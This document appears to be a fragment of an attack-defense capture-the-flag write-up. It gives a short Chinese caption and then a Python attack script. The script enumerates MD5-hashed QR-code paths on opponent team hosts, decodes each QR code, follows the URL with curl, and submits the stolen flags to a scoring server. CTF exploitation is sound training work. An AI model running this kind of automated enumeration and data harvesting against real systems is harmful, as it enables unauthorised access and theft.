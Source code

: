 

攻擊腳本如下：

```python
#!/usr/bin/python3

import subprocess
import requests
import hashlib
from pyzbar.pyzbar import decode
from PIL import Image
from pwn import *
import re
import threading
import socket

ip_list = [
    f'7.7.{i}.2' for i in range(1, 23)
]
rrr = remote('7.0.0.1', 31337)
print(rrr.recvline())

def job(ip):
    for link in range(860, 900):
        print(link)
        m = hashlib.md5()
        m.update(str(link).encode())
        r = requests.get(f'http://{ip}:8080/qr/{m.hexdigest()}', stream=True, timeout=3)
        if r.status_code == 200:
            open(f"./tmp_{ip}.png", "wb").write(r.content)
            img = Image.open(f'./tmp_{ip}.png')
            result = decode(img)
            
            for i in result:
                cmd = ("curl " + f"{i.data.decode()}"  + " -s -L -I -o /dev/null -w '%{url_effective}'").split(' ')
                proc = subprocess.Popen(cmd, stdout=subprocess.PIPE)
                out, _ = proc.communicate()
                flag = ''
                if '.com/flag/' in out.decode():
                    flag = out[1:-1].decode().split('.com/flag/')[1]
                if flag != '' and len(flag) == 32:
                    rrr.sendline(flag)
                    print(ip, rrr.recvline())

threads = {}
for ip in ip_list:
    threads[ip] = threading.Thread(target = job, args = (ip,))
    threads[ip].start()

for ip in ip_list:
    threads[ip].join()

rrr.close()
```
